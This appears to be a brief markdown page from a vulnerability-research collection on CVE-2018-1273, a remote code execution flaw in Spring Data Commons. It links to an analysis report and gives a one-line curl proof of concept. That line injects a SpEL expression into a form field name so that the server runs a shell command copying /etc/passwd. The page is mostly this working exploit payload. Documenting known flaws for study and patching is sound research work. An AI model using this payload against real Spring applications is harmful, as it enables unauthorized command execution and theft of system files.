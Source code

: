 ## CVE-2018-1273: RCE with Spring Data Commons

参考链接

* [【漏洞分析】CVE-2018-1273: RCE with Spring Data Commons 分析报告](http://blog.nsfocus.net/cve-2018-1273-analysis/)

Poc

```
curl http://127.0.0.1:8080/users --data 'username[T(java.lang.Runtime).getRuntime().exec("cp /etc/passwd /tmp")/abc]=123&password=123&repeatedPassword=123'
```

